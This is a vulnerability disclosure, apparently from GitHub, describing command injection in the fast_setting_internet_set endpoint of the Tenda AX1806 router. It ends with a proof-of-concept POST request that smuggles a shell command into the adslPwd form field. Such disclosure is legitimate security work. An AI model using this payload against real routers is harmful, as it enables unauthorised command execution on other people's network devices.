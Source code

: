 

# ***\*Tenda ax1806 has command injection vulnerability\****

## ***\*summary****

• ***\*type\****：命令注入漏洞

• ***\*supplier\****：腾达（https://tenda.com.cn）

• ***\*product\****: WiFi router ax1806

• ***\*Firmware download address:：\**** https://www.tenda.com.cn/download/detail-3306.html

• ***\*Firmware download address:\****https://down.tenda.com.cn/uploadfile/AX1806/US_AX1806V21brv1001cn2988ZGDX01.zip

Tengda AX1806 uses a new generation of WIFI6 (802.11ax) technology, and combines higher number of subcarriers and 1024QAM modulation technology. Compared with wifi-5 routers, dual-band wireless internet access rate is greatly improved. fast_setting_internet_set has a Command Execution Vulnerability





## ***\*Description\****

### ****1, Product Information:\****

Overview of the latest version of Tenda AX1806 router simulation:

![image-20220625113844733](img/image-20220625113844733.png)

 

 

 

### ****2. Vulnerability Details\****

Tenda AX1806 was found in fast_setting_internet_set Command injection vulnerability in set function

![image-20220624133917486](img/image-20220624133917486.png)

![img](/img/{D2E0A7E4-0A94-794D-9F4D-264A4631CF8E}.jpg)



When we set netWanType=2, we get a command injection vulnerability when we log in.



## ***\*3. Recurring loopholes and POC\****

To reproduce the vulnerability, the following steps can be followed:

Start firmware (real machine) via qemu-system or other means

Attack using the following POC attacks

Note the replacement of password fields in cookies

```
POST /goform/fast_setting_internet_set
?0.20172657847322262 HTTP/1.1
Host: 192.168.10.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 183
Origin: http://192.168.10.1
Connection: close
Referer: http://192.168.10.1/main.html
Cookie: password=bb507bf3973a97a9bf1267699f712550vsbtgb

netWanType=2&adslUser=asd&adslPwd=$(ls >/tmp/ccccccccccccccccccccc)&vpnServer=&vpnUser=&vpnPwd=&vpnWanType=1&dnsAuto=1&staticIp=&mask=&gateway=&dns1=&dns2=&module=wan1&downSpeedLimit=
```

![image-20220706130247758](/img/image-20220706130247758.png)
